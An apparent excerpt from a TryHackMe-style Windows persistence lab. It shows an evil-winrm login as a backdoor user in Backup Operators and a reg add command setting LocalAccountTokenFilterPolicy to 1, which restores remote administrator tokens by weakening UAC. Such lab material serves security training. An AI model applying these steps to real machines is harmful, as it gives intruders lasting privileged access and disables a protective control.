 ```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

This is due to User Account Control (UAC). One of the features implemented by UAC, **LocalAccountTokenFilterPolicy**, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session (Read more on UAC [here](https://tryhackme.com/room/windowsfundamentals1xbx)), if you are using WinRM, you are confined to a limited access token with no administrative privileges.

To be able to regain administration privileges from your user, we'll have to disable LocalAccountTokenFilterPolicy by changing the following registry key to 1:

```shell-session
C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Once all of this has been set up, we are ready to use our backdoor user. First, let's establish a WinRM connection and check that the Backup Operators group is enabled for our user:


```shell-session
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321
        
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
```